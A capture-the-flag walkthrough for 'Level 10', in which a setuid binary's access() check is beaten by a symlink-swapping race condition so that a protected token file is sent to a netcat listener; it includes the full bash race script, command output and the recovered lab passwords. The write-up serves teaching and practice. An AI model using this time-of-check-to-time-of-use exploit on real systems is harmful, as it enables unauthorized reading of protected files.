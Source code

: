 # Level 10

Once again we find a binary and a token file in the directory.
Token isn't readable this time.

```bash
./level10
./level10 file host
# sends file to host if you have access to it
ltrace ./level10 token 127.0.0.1
__libc_start_main(0x80486d4, 3, 0xbffff7c4, 0x8048970, 0x80489e0 <unfinished ...>
access("token", 4)                                                     = -1
printf("You don't have access to %s\n", "token"You don't have access to token
)                       = 31
+++ exited (status 31) +++
```

The binary uses access() to check if we have permissions, we can test with a file we own.

```bash
./level10 /tmp/test 127.0.0.1
Connecting to 127.0.0.1:6969 .. Unable to connect to host 127.0.0.1
```

After checking for permissions, the process tries to connect through port 6969. Using netcat tool (nc), we can listen to the port before connecting. We will need another session for this.

Session 1:

```bash
touch /tmp/test
./level10 /tmp/test 127.0.0.1
Connecting to 127.0.0.1:6969 .. Connected!
Sending file .. wrote file!
```

Session 2:

```bash
nc -l 6969
.*( )*.
```

Once the connection is made, the binary prints the contents of the file. The access() system call has a security hole: there is a delay between checking permissions to the file and opening it, we can swap the real file in after the binary calls access(), before print.

Run script.sh and ctrl+C shortly after. the token will show up in logs:

```bash
sh /tmp/script.sh
Connecting to 127.0.0.1:6969 .. Connected!
.*( )*.
Sending file .. wrote file!
woupa2yuojeeaaed06riuj63c

su flag10
woupa2yuojeeaaed06riuj63c
Don't forget to launch getflag !
getflag
Check flag.Here is your token : feulo4b72j7edeahuete3no7c
```

```bash
#!/bin/bash

touch /tmp/swap
while true; do
  ln -sf /tmp/swap /tmp/link;
  ln -sf ~/token /tmp/link;
done &
while true; do
  nc -l 6969;
done &
while true; do
  ~/level10 /tmp/link 127.0.0.1;
done
```

